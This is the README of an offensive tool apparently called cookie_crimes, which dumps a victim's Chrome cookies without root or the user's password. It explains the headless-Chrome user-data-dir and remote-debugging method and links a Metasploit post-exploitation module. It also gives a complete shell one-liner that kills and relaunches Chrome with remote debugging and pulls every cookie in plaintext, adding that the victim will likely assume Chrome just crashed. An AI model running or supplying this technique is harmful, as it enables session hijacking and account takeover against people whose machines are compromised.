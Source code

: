 
# Chrome Cookie Extraction Without Root

This will print out a user's Chrome cookies. You don't need to have their password or be root to use it. nice nice nice nice nice.

If you are not the kind of person who regularly gets the ability to execute code on other people's computers, you probably don't care about this.

## Features
* Prints all Chrome cookies in sweet sweet JSON
* Works without root or the user's password
* Works on Windows, Linux, and macOS
* Get cookies fom any Chrome Profile
* Never leaves you on read
* Cooks a mean lasagna
* Compiles to a single binary

## Metasploit module

For ezmode #ethical #hacking, please direct your meterpreter session to https://github.com/rapid7/metasploit-framework/blob/9616a9f79de0b22bfd142f12affd74cecbbd4413/documentation/modules/post/multi/gather/chrome_cookies.md

## Blog post
Read the full details at https://mango.pdf.zone/stealing-chrome-cookies-without-a-password

## Installation
Requires Python3.6+ to run locally, but the binary it compiles to works anywhere.
```
 pip3 install -r requirements.txt
```

## Usage

To run it locally:
```
   python cookie_crimes.py
```
This will print your Chrome cookies as JSON for the default profile. They're conveniently in the right format to be loaded into the [EditThisCookie Chrome Extension](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg)

To compile to a single binary:
```
   make
```

Note that the binary created will be for the OS you run `make` on. There's no fancy cross-compiling magic going on here. You'll have to build this on the same OS as you're running it on.

### Multiple Profiles
If you want to extract the Chrome cookies for a profile other than the Default profile, just edit the `PROFILE` variable in `cookie_crimes.py`. This uses some sneaky "writing to `/tmp`" tricks to trick Chrome into reading the cookies for us.

## How it works

### Headless Chrome and `user-data-dir`
Headless (no window is rendered) Chrome is allowed to specify a `user-data-dir`. This directory contains cookies, history, preferences, etc. By creating a new headless Chrome instance, and specifying the `user-data-dir` to be the same as the victim's, your headless Chrome instance will authenticate as the vicitm.

### Remote debugging
From here, we just use a normal (but extremely forbidden and undocumented) feature of Chrome: the Remote Debugging protocol. This is how Chrome Developer Tools communicate with Chrome. Once your headless Chrome (with remote debugging enabled) instance is running, this code just executes remote debugging commands to print the user's cookies for all websites in plaintext.

You can fully control Chrome at this point, taking any action the user could take.

### UPDATE: Alternate method for macOS
For whatever reason, running Chrome with `--headless` has allowed reading of cookies from headful Chrome on-and-off over the last few years as changes to Chrome are made. This has caused the `headless` method to sometimes not work on macOS. 

Here's an alternate method that works cross-platform, first time, every time.

```
pkill Chrome && while pgrep Chrome; do false; done; /Applications/Google\ Chrome.app/Contents/MacOS/Google\ Chrome \ # Or the Chrome binary location on Windows/Linux
--user-data-dir="$HOME/Library/Application Support/Google/Chrome" \ # Or the user-data-dir on Windows/Linux
--remote-debugging-port=9222 --crash-dumps-dir=/tmp --restore-last-session & \
 sleep 5 && echo 'Network.getAllCookies' | \
websocat -n1 --jsonrpc \
$(curl -sg http://localhost:9222/json | grep webSocketDebuggerUrl | cut -d'"' -f4 | head -1)
```

If you don't have `websocat` installed, you can do the websocket request in `python`, as the example in `cookie_crimes.py` does.

##### How it works
It works by quickly killing and restarting Chrome, and attaching remote debugging to the new Chrome session with `--restore-last-session`. This does have the downside of making the Chrome window look like it crashed for about 0.5s (it did lol) and reloading all tabs. But hey, the user will probably just assume their Chrome crashed and restored itself.

Extra crispy thanks to [@IAmMandatory](https://twitter.com/iammandatory) for sharing this trick `<3`

### closing ceremony
don't do crimes with this please

